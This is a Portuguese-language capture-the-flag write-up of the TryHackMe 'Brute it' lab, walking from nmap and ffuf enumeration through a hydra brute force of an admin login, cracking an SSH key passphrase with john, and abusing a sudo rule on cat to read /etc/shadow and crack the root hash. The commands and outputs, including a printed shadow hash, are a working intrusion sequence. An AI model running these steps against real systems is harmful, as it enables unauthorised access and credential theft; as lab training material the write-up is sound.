 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - Brute it - Fácil
date: 2024-03-06 04:17:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, web, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![Logo](/assets/img/bruteit/bruteit.jpg){: w="100" h="100" .left}

---
# **CTF - Brute it**
---
---  
## **Enumeração**

### nmap

```shell
╰─ sudo nmap -sV -Pn -sS --min-rate 10000 -stats-every 5 -p- -oN nmap $IP                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 21:31 -03
Warning: 10.10.225.218 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.225.218
Host is up (0.71s latency).
Not shown: 57996 closed tcp ports (reset), 7537 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.55 seconds
```
{: .nolineno }

### ffuf

```shell
╰─ ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -t 100 -u http://10.10.225.218/FUZZ -e .php,.txt,.html 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.225.218/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 :: Extensions       : .php .txt .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess.txt           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 4356ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5389ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5389ms]
.htpasswd.txt           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5390ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5390ms]
.htpasswd.html          [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6399ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6400ms]
.htaccess.html          [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6402ms]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 340ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 341ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 335ms]
```
{: .nolineno }

Página de login  

![alt text](/assets/img/bruteit/1.png)

Código fonte tem esse comentário  

```html
    <!-- Hey john, if you do not remember, the username is admin -->
```
{: .nolineno }
### hydra
   
brute force com hydra na página de login
   
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.225.218 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:password invalid" -V -F`

![alt text](/assets/img/bruteit/2.png)

Ao utilizar as credenciais, tem essa página com download de chave ssh do usuário john.

![alt text](/assets/img/bruteit/3.png)

![alt text](/assets/img/bruteit/4.png)

### john

Crackeando password da chave ssh

```shell
╭─      ~/thm/bruteit     ✔  54s      
╰─ nano sshkey   
╭─      ~/thm/bruteit     ✔  3s      
╰─ ssh2john sshkey > hash              
╭─      ~/thm/bruteit     ✔    
╰─ john hash --wordlist=/usr/share/wordlists/rockyou.txt                     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (sshkey)     
1g 0:00:00:00 DONE (2024-03-04 22:07) 11.11g/s 806755p/s 806755c/s 806755C/s rubicon..rock14
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno }

## **Foothold**

Acesso via ssh

```shell
╭─      ~/thm/bruteit              INT ✘  45s      
╰─ chmod 600 sshkey               
╭─      ~/thm/bruteit              ✔    
╰─ ssh -i sshkey john@$IP
Enter passphrase for key 'sshkey': 
Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ 
```
{: .nolineno }

### user flag

![alt text](/assets/img/bruteit/5.png)

**permissões sudo**

```shell
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
{: .nolineno }

## **Escalação Privilégio**

Podendo executar o `cat` com `sudo`, da pra ler o arquivo shadow e tentar crackear.  

Pra crackear com john o shadow tem que criar um arquivo unshadow, mais info [aqui.](https://erev0s.com/blog/cracking-etcshadow-john/)

Como o interesse é obter root vou usar apenas a linha do root dos arquivos passwd e shadow.

`john@bruteit:~$ cat /etc/passwd`
`root:x:0:0:root:/root:/bin/bash`

Salvei a linha em um arquivo chamado `passwd.txt`

`john@bruteit:~$ sudo cat /etc/shadow`  
`root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::`

Salvei a linha no arquivo chamado `shadow.txt`

Após isso criei o arquivo unshadow

`unshadow passwd.txt shadow.txt > hashshadow`

### john
Crakeado com john

![alt text](/assets/img/bruteit/6.png)

### root flag

![alt text](/assets/img/bruteit/7.png)